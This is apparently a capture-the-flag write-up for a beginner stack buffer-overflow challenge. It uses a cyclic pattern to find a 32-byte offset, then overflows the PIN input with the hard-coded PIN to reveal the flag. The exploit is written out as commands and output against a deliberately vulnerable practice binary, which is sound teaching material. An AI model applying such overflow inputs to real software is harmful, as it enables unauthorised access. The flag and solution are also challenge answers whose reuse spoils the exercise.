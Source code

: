# Solution

1. Use the `exit` command and place in a cyclic payload into the PIN area to get the offset.

```bash
# cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```bash
# ./capture-the-flag
Capture the Flag!!!
Available commands: ls, cat <file>, exit

$ exit

Before you leave, please enter the PIN: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

A: aaaabaaacaaadaaaeaaafaaagaaahaaa
B: iaaaja

Incorrect PIN. Better luck next time!
zsh: segmentation fault  ./capture-the-flag
```

```bash
# cyclic -l iaaaja
32
```

2. In the C program, the PIN is `"512524"`. So now we should create a payload that contains `"512524"` after 32 characters.

```c
#define PIN "512524"
```

```bash
# ./capture-the-flag
Capture the Flag!!!
Available commands: ls, cat <file>, exit

$ exit

Before you leave, please enter the PIN: aaaabaaacaaadaaaeaaafaaagaaahaaa512524

A: aaaabaaacaaadaaaeaaafaaagaaahaaa
B: 512524


Congrats! Here's your flag: SIG24{Buff3r_0v3rfl0w_1s_FuN!}
zsh: segmentation fault  ./capture-the-flag
```